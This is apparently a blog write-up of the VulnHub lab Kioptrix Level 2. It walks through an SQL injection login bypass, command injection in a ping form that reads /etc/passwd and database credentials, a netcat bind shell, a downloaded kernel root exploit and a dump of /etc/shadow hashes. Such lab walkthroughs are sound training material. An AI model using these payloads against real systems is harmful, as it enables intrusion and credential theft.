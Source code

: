 ```yaml
---
layout: post
title: "Kioptrix: Level 2"
date: 2015-05-11 19:15:08 +0200
comments: true
categories: [vulnhub, kioptrix]
---
```

Image: [Kioptrix: Level 1.1 (#2)](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

Nmap output:
{% codeblock %}
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:53:19:4C (VMware)
{% endcodeblock %}

We connect to the web page and log in using username / password (SQLi):
{% codeblock %}
test' or '1'='1
{% endcodeblock %}

Now we got the access to the "Basic Administrative Web Console". Trying command
injection, we found out that we can inject arbitrary command and execute under
web user privileges.

Request / response example:
{% codeblock %}
POST /pingit.php HTTP/1.1
Host: 192.168.80.144
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:37.0) Gecko/20100101 Firefox/37.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.80.144/index.php
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

ip=127.0.0.1 %26%26 cat /etc/passwd&submit=submit
{% endcodeblock %}

{% codeblock %}
HTTP/1.1 200 OK
Date: Sat, 09 May 2015 15:02:56 GMT
Server: Apache/2.0.52 (CentOS)
X-Powered-By: PHP/4.3.9
Content-Length: 2187
Connection: close
Content-Type: text/html; charset=UTF-8

127.0.0.1 && cat /etc/passwd<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.008 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.015 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.008/0.012/0.015/0.005 ms, pipe 2
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpm:x:37:37::/var/lib/rpm:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
netdump:x:34:34:Network Crash Dump user:/var/crash:/bin/bash
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
pegasus:x:66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
john:x:500:500::/home/john:/bin/bash
harold:x:501:501::/home/harold:/bin/bash
</pre>
{% endcodeblock %}

Web server fingerprints:
{% codeblock %}
+ Server: Apache/2.0.52 (CentOS)
+ Retrieved x-powered-by header: PHP/4.3.9
{% endcodeblock %}

We don't have writable access under DocumentRoot. Looking to different
directories, we found the netcat source remains.
{% codeblock %}
drwxrwxrwx  7 100 users 4096 Oct  8  2009 /usr/src/netcat-0.7.1
drwxrwxrwx  3 100 users 4096 Oct  8  2009 /usr/src/netcat-0.7.1/doc
drwxrwxrwx  2 100 users 4096 Oct  8  2009 /usr/src/netcat-0.7.1/doc/drafts
drwxrwxrwx  2 100 users 4096 Oct  8  2009 /usr/src/netcat-0.7.1/po
drwxrwxrwx  3 100 users 4096 Oct  8  2009 /usr/src/netcat-0.7.1/lib
drwxrwxrwx  2 100 users 4096 Oct  8  2009 /usr/src/netcat-0.7.1/lib/contrib
drwxrwxrwx  2 100 users 4096 Oct  8  2009 /usr/src/netcat-0.7.1/src
drwxrwxrwx  2 100 users 4096 Oct  8  2009 /usr/src/netcat-0.7.1/m4
drwxrwxr-x  5 root sys 4096 Oct  7  2009 /etc/cups
drwxr-xrwx  4 root root 4096 May  9 12:11 /tmp
drwxrwxrwt  2 root root 4096 May  9 10:17 /tmp/.ICE-unix
drwxrwxrwt  2 root root 4096 May  9 10:18 /tmp/.font-unix
{% endcodeblock %}

So there should be netcat installed, we will need this information later. 

We can read index.php for mysql credentials:
{% codeblock %}
ip=127.0.0.1 %26%26 cat index.php&submit=submit
..
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
	mysql_select_db("webapp");
	
	if ($_POST['uname'] != ""){
		$username = $_POST['uname'];
		$password = $_POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."<br>";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."<br />";
	}

?>
{% endcodeblock %}

The john's password doesn't work for ssh, but at least we can extract more from
mysql database:
{% codeblock %}
ip=127.0.0.1 %26%26 echo show databases|mysql -ujohn -phiroshima&submit=submit
Database
mysql
test
webapp

ip=127.0.0.1 %26%26 echo 'use webapp; show tables'|mysql -ujohn -phiroshima&submit=submit
id	username	password
1	admin	5afac8d85f
2	john	66lajGGbla
{% endcodeblock %}

Again, the passwords don't work for ssh. 

We find netcat and use it to bind a shell, then we try to root the box:
{% codeblock %}
ip=127.0.0.1 %26%26 find / -iname \*netcat\*&submit=submit
..
/usr/share/zsh/4.2.0/functions/_netcat
/usr/local/info/netcat.info
/usr/local/share/locale/sk/LC_MESSAGES/netcat.mo
/usr/local/share/locale/it/LC_MESSAGES/netcat.mo
/usr/local/man/man1/netcat.1
/usr/local/bin/netcat
/usr/src/netcat-0.7.1
/usr/src/netcat-0.7.1/doc/netcat.1
/usr/src/netcat-0.7.1/doc/netcat.info
/usr/src/netcat-0.7.1/doc/netcat.texi
/usr/src/netcat-0.7.1/doc/netcat.pod
/usr/src/netcat-0.7.1/po/netcat.pot
/usr/src/netcat-0.7.1/src/netcat.c
/usr/src/netcat-0.7.1/src/netcat.h
/usr/src/netcat-0.7.1/src/netcat.o
/usr/src/netcat-0.7.1/src/netcat
{% endcodeblock %}

{% codeblock %}
ip=127.0.0.1 %26%26 /usr/local/bin/netcat -e /bin/sh -l -p 1337&submit=submit
{% endcodeblock %}

{% codeblock %}
root@kali32:/var/www# nc 192.168.80.144 1337

id
uid=48(apache) gid=48(apache) groups=48(apache)

uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
{% endcodeblock %}

Luckily, exploitdb contains local root exploit with exactly this version of kernel:
{% codeblock %}
root@kali32:/usr/share/exploitdb# grep -irn '2.6.9-55.EL' *
platforms/linux/local/9542.c:7:** CentOS 4.4(2.6.9-42.ELsmp), CentOS 4.5(2.6.9-55.ELsmp),
{% endcodeblock %}

As our last step, we download and compile this exploit
https://www.exploit-db.com/exploits/9542/ .

{% codeblock %}
cd /tmp/
wget https://www.exploit-db.com/download/9542 -O 9542.c --no-check-certificate

gcc 9542.c
./a.out
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00# 

sh-3.00# cat /etc/shadow
root:$1$FTpMLT88$VdzDQTTcksukSKMLRSVlc.:14529:0:99999:7:::
bin:*:14525:0:99999:7:::
daemon:*:14525:0:99999:7:::
adm:*:14525:0:99999:7:::
lp:*:14525:0:99999:7:::
sync:*:14525:0:99999:7:::
shutdown:*:14525:0:99999:7:::
halt:*:14525:0:99999:7:::
mail:*:14525:0:99999:7:::
news:*:14525:0:99999:7:::
uucp:*:14525:0:99999:7:::
operator:*:14525:0:99999:7:::
games:*:14525:0:99999:7:::
gopher:*:14525:0:99999:7:::
ftp:*:14525:0:99999:7:::
nobody:*:14525:0:99999:7:::
dbus:!!:14525:0:99999:7:::
vcsa:!!:14525:0:99999:7:::
rpm:!!:14525:0:99999:7:::
haldaemon:!!:14525:0:99999:7:::
netdump:!!:14525:0:99999:7:::
nscd:!!:14525:0:99999:7:::
sshd:!!:14525:0:99999:7:::
rpc:!!:14525:0:99999:7:::
mailnull:!!:14525:0:99999:7:::
smmsp:!!:14525:0:99999:7:::
rpcuser:!!:14525:0:99999:7:::
nfsnobody:!!:14525:0:99999:7:::
pcap:!!:14525:0:99999:7:::
apache:!!:14525:0:99999:7:::
squid:!!:14525:0:99999:7:::
webalizer:!!:14525:0:99999:7:::
xfs:!!:14525:0:99999:7:::
ntp:!!:14525:0:99999:7:::
pegasus:!!:14525:0:99999:7:::
mysql:!!:14525::::::
john:$1$wk7kHI5I$2kNTw6ncQQCecJ.5b8xTL1:14525:0:99999:7:::
harold:$1$7d.sVxgm$3MYWsHDv0F/LP.mjL9lp/1:14529:0:99999:7:::
sh-3.00# 
{% endcodeblock %}
